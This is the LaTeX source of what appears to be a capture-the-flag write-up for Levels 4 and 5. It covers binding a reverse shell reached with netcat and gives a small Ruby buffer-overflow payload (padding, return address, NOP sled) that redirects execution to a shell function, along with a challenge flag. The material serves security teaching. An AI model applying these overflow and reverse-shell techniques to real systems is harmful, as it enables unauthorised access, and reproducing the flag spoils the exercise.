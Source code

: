 \documentclass[12pt, bibliography=totocnumbered]{article}
\newcommand{\ssection}[1]{%
  \section[#1]{\centering\normalfont\scshape #1}}
\begin{document}
This binds a reverse shell on port 64713 and then we can connect to that port using \texttt{netcat}. For this exploit to work, make sure that \texttt{ASLR} is disabled and for the value of \texttt{Jmp\_call\_address} in the above script, we have to do a little bit of bruteforcing. If we can use one of the previous level exploits to get to shell and use the method described here: 
\underline{\url{http://seclists.org/dailydave/2004/q1/39}}
\begin{figure}[H]
\centerline{\includegraphics[width=1\textwidth]{img/4/1.png}}
\end{figure}

\texttt{FLAG: \{\{what ever happened to fred durst?\}\}}

\newpage
\ssection{\textbf{Level 5}}

Level 5 is similar to Level 3. When we disassemble, we can see that we have been provided with \texttt{drop\_to\_shell()}, we can use the similar approach as Level 3.

\par Exploit: 

\begin{verbatim}
#!/usr/bin/env ruby
SomeJunk = "A"*48
Address = "\x4c\x38\x30\x30" #0x3030384c
Nops = "\x90"
FinalPayload = SomeJunk + Address + Nops*50 + "\n"
print FinalPayload
$stdout.flush
\end{verbatim}
\begin{figure}[H]
\centerline{\includegraphics[width=1\textwidth]{img/5/1.png}}
\end{figure}

\begin{figure}[H]
\centerline{\includegraphics[width=1\textwidth]{img/5/2.png}}
\end{figure}
\end{document}
